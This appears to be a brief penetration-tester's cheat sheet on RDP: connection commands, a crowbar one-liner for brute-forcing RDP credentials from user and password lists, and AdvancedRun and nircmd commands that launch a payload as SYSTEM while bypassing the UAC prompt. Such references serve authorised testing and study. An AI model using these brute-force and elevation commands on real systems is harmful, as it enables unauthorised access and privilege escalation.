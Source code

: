 # RDP tools

## Connect

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:IP /u:USER /p:PASS
rdesktop -a 16 -z -u USER -p PASS IP -r clipboard:CLIPBOARD
remmina -c FILE.rdp
```

## brute force RDP

```
crowbar -b rdp -s CIDR-IP/32 -U USER.txt -C PASS.txt
```

## Run shell as elevated user without UAC prompt

### [Advanced Run](https://www.nirsoft.net/utils/advanced_run.html)

```bash
> AdvancedRun.exe /EXEFilename "kashz.exe" /RunAs 4 /Run
# 3: Administrator
# 4: SYSTEM
```

### [nircmd](https://www.nirsoft.net/utils/nircmd.html)

```bash
> nircmd.exe elevatecmd runassystem kashz.exe
```

* [https://www.winhelponline.com/blog/run-program-as-system-localsystem-account-windows](https://www.winhelponline.com/blog/run-program-as-system-localsystem-account-windows)
